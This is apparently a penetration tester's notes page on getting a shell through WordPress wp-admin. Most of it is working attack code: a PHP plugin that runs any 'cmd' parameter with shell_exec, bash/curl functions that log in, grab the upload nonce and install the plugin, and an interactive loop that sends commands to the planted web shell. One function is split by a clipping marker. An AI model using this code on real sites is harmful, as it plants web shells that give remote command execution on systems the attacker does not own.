

# Getting a shell through wp-admin

*Is pretty straight forward*

1. Get a valid admin session.
2. Change, upload or create a theme or plugin with malicious PHP code.

**Meatsploit:** 'exploit/unix/webapp/wp_admin_shell_upload' automates the process. For manual exploitation, see below.

## Manual

Two easy ways:

1. Edit an existing theme or plugin to contain malicious php code.
2. Upload a new PHP plugin/theme to contain malicious php code.

-To-Do-

## Bash and curl

Scripts below are saved in [bash-wp-admin-login](bash-wp-upload-plugin).

## Create a wordpress plugin to do what you want

- https://developer.wordpress.org/plugins/
- https://developer.wordpress.org/plugins/plugin-basics/header-requirements/

In this case, a simple PHP file that takes the GET parameter 'cmd' and executes it on system. Wordpress has a 'plugin handbook' you can use.

There are two things to keep in mind:

1. There's a header requirement, see the comment section below, to delcare the plugin name. This name will appear when viewing plugins in wp-admin.
2. You have to upload it in a zip file. The name of the zipfile(minus the file extension) will also be the URL you will be calling later.

```php
<?php
  /*
   * Plugin Name: phpcmd
  */

  echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';
?>
```

```bash
# Zipping into file mp.zip, php filename is myplug.php
zip mp.zip myplug.php
```

## Get valid wp-admin credentials

Basically just a POST with valid login credentials. Below is a function I made with curl.

Note: If using curl, you have to explicit tell it to url encode.

The '-c' option stores all received cookies in a file of our choice(cookie jar), which we later can use with the '-b' option.

The function below has to be called with positional arguments: `wp_admin_login "USERNAME" "PASSWORD" "WORDPRESS_URL"`.

```bash
function wp_admin_login {
  # Assigning positional args
  username="$1"
  password="$2"
  base_url="$3"
  login_url=$base_url"/wp-login.php"
  admin_url=$base_url"/wp-admin/"
  c_filename="cookies.txt"

  echo "Attempting to login... Saving cookies to '$c_filename'."

  curl \
    -b "wordpress_test_cookie=WP+Cookie+check" \
    --data-urlencode "log=$username" \
    --data-urlencode "pwd=$password" \
    --data-binary 'wp-submit=Log+In' \
    --data-urlencode "redirect_to=$admin_url" \
    --data-binary 'testcookie=1' \
    "$login_url" \
    -c "$c_filename" \
    --output /dev/null -sS \
    --connect-timeout 10

  if [ $? -ne "0" ]
  then
    echo "Curl failed to connect."
    exit 1
  elif ! grep "wordpress_logged_in" $c_filename > /dev/null
  then
    echo "Login not successful, check credentials."
    rm cookies.txt && exit 1
  else
    echo "Login succesful! Session cookies in '$c_filename'"
  fi
}
```

## Get "_wpnonce" value to upload plugin

- https://codex.wordpress.org/WordPress_Nonces

"_wpnonce" is a hash, meaning "Number used Once". It's purpose is to prevent malicious/misuse. To upload a plugin we must submit a valid nonce in the same form as the plugin. The script below extracts the nonce specific for uploading a plugin. To perform other actions, you must get the nonce according to your action.

I've put this in a function that later uploads the plugin.

Function called with: `wp_upload_plugin "WORDPRESS_URL" "ZIP_FILENAME"`.

```bash
function wp_upload_plugin {
  # Assigning positional args
  base_url=$1
  payload=$2
  c_filename="cookies.txt"

  echo "Fetching nonce..."
  nonce=$(curl \
    -sS -b cookies.txt \
    $base_url"/wp-admin/plugin-install.php?tab=upload" \
    | sed -n '/<input type="hidden" id="_wpnonce"/p' \
    | cut -d '"' -f 8)
  if [ $nonce ]
  then
    echo "Got nonce: $nonce"
  else
    echo "Getting nonce failed, might be a problem with cookies/credentials."
    exit 1
  fi
---CLIPPED---
}
```

## Upload plugin

The upload itself is posting a upload form containing the zipfile and correct nonce.

```bash
---CONTINUED---
echo "Uploading payload..."
curl -sS -X 'POST' \
  -b "$c_filename" \
  -F "_wpnonce=$nonce" \
  -F "_wp_http_referer=/wp-admin/plugin-install.php" \
  -F "pluginzip=@$payload;filename=$payload;type=application/zip" \
  -F "install-plugin-submit=Install Now" \
  "$base_url""/wp-admin/update.php?action=upload-plugin" \
  --output /dev/null

  if [ $? -ne "0" ]
  then
    echo "Curl exited with error."
    exit 1
  else
    echo "Payload '$payload' upoaded."
  fi
}
```

The URL to the plugin should now be: 'http://WORDPRESS_URL/wp-contents/plugins/mp/myplug.php' and if we want to send a command we can do it by appending '?cmd=COMMAND'. Note that if your zip-file has the same name as a file already present, it will get a number after it like 'mp-2'.

## Communicating with your plugin

A simple "webshell" that communicates with the above plugin. It uses the package 'html2text' to present it nicely in terminal.

```bash
echo "Type 'exit' to exit."
read -p "URL to WP site: " base_url
fill="/wp-content/plugins/"
read -p "Plugin path: $base_url$fill" plugin_url
#read -p "GET parameter to use: " get
get="cmd"

echo "Using URL: $base_url$fill$plugin_url?cmd=COMMAND"

while true
do
  read -p "Command-to-send: " cmd

  if [ "$cmd" = "exit" ]; then exit; fi

  curl -GSs \
  $base_url"/wp-content/plugins/"$plugin_url \
  --data-urlencode "$get=$cmd" \
  | html2text
done
```



## Python

-To-Do-
